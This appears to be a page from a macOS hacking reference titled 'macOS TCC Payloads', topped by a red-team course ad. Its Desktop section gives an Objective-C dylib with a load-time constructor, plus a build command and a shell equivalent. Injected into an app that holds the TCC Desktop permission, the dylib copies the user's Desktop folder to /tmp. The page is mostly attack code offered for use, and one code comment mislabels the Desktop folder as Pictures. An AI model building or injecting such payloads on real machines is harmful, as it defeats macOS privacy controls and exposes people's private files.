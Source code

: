 # macOS TCC Payloads

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

### Desktop

* **Entitlement**: None
* **TCC**: kTCCServiceSystemPolicyDesktopFolder

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
    NSString *tmpPhotosPath = @"/tmp/desktop";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Desktop` to `/tmp/desktop`.

```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{% endtab %}
{% endtabs %}
